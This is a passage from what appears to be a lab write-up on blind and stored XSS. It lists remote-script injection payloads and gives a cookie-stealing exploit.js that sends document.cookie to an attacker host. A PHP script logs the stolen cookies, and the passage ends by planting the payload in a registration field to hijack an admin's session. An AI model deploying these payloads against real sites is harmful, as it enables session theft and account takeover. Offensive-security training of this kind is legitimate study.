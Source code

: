 ```html
<script src=http://10.10.15.41/1></script>
'><script src=http://10.10.15.41/2></script>
"><script src=http://10.10.15.41/3></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```  

>Successfully Identified the URL field with this payload: `"><script src=http://10.10.15.41/exploit.js></script>`, Loading a Remote Script.  

>A session hijacking attack is similar to the phishing attack, It requires a JavaScript payload to send attacker the required data and a PHP script hosted on attack host to grab and parse the transmitted data.  

### Setup Cookie Stealer  

>Kali hosting PHP server with `php -S 0.0.0.0:80` the following two files: 

>The source code for `exploit.js`:
```javascript
// document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://10.10.15.41/index.php?c='+document.cookie;
```  

The PHP source code for `index.php`:  
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```  

>Burp Suite Send the payload and wait for the Admin user to review our page registration, that contain the stored XSS cookie stealer payload in the `imgurl=` parameter.  

![burp-repeater-send-cookie-stealer-stored-xss](/images/burp-repeater-send-cookie-stealer-stored-xss.png)  
